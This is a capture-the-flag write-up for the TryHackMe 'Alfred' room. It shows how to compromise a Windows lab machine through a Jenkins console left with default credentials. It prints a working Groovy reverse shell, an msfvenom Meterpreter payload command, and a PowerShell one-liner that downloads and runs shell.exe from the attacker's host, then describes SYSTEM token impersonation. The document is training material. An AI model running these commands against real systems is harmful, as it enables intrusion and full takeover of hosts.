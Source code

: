 ```yaml
---
layout: solution
category: TryHackMe
contest_code: General
contest_name: General
problem_code: ALFRED
problem_name: Alfred
comments: false
tags: jenkins windows_tokens
date: 2021-08-28
---
```


### A simple nmap scan was conducted on the machine. Turns out it is running a website on port 80 and 8080. Also running RDP on port 3389

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/nmap.png)

‎


### The website on port 80 does not look interesting enough

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/web1.png)

‎


### The website on port 8080 was found to have a login page. Default `admin:admin` credentials was used to login into the webpage

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/web2.png)

‎


### After logged in as admin, it brought us to this page, where it can be used to manage Jenkins

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/index.png)

‎


### The script page allowed us to execute remote commands in groovy language. This allows us to perform RCE. 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/command_exec.png)

‎


### A reverse shell groovy script was created and executed to gain a reverse shell
```groovy
String host="10.11.21.149";
int port=9999;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/reverse_shell.png)

<p style="color:orange;">The reverse shell was obtained using Ncat as a listener</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/ncat.png)

<p style="color:orange;">We are able to get our first flag</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/flag1.png)

‎


### It's always good to always to obtain a better shell for higher flexibility. Thus I had attempted to upgrade this simple shell to a meterpreter shell and hosted it on port 80
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.21.149 LPORT=8000 -f exe -o shell.exe
```
<p style="color:orange;">Creating Meterpreter shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/msfconsole.png)

<p style="color:orange;">Hosting Payload</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/host.png)

‎


### However, this machine runs on older version of powershell  which does not support `Invoke-WebRequest` library (alternative to wget). Thus, another approach was used to download our meterpreter payload to obtain a meterpreter shell
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.21.149/shell.exe','shell.exe')" && shell.exe
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/download.png)

<p style="color:orange;">Obtaining a reverse meterpreter shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/meterpreter_shell.png)

‎


### In order to privilege escalate we can impersonate windows tokens.
### Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
### Thus, we can view all the privileges using `whoami /priv`. We can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. We can use the incognito module that will allow us to exploit this vulnerability
```
whoami /priv
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/privilege_list.png)

‎


### We can list user token by using the command `list_tokens -u`. We are able to see that NT Authority\System token is available. We then can proceed impersonating the token by executing `impersonate_token "NT AUTHORITY\SYSTEM"` to escalate our privilege

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/escalation.png)

‎


### However, even though we have a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 
### To mitigate from this, we can migrate to a process with correct permissions. The safest process to pick is the `services.exe` process.

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Alfred/root.png)
